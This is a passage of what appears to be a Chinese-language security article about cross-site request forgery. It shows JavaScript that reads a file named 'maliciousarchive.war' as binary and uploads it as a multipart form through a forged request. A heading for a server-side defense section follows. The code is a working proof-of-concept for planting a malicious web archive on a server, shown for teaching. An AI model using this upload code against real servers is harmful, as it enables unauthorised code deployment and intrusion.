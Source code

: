 ```
    xhr.sendAsBinary(body);
    return true;
}

function addField(name, value, boundary) {
  var c = "--" + boundary + "\r\n"
  c += 'Content-Disposition: form-data; name="' + name + '"\r\n\r\n';
  c += value + "\r\n";
  return c;
}

function addFileField(name, value, filename, boundary) {
    var c = "--" + boundary + "\r\n"
    c += 'Content-Disposition: form-data; name="' + name + '"; filename="' + filename + '"\r\n';
    c += "Content-Type: application/octet-stream\r\n\r\n";
    c += value + "\r\n";
    return c;
}

function getBinary(file){
  var xhr = new XMLHttpRequest();
  xhr.open("GET", file, false);
  xhr.overrideMimeType("text/plain; charset=x-user-defined");
  xhr.send(null);
  return xhr.responseText;
}

function readBinary(data) {

var tmp = '';
    for (var i = 0; i < data.length; i++) tmp += String.fromCharCode(data.charCodeAt(i) &
0xff);
    data = tmp;
    return tmp;
    }

function start() {
  var c = getBinary('maliciousarchive.war');
  fileUpload(c, "maliciousarchive.war");

}
```

# 防御

## 服务端防御

### 遵循标准的 GET 动作
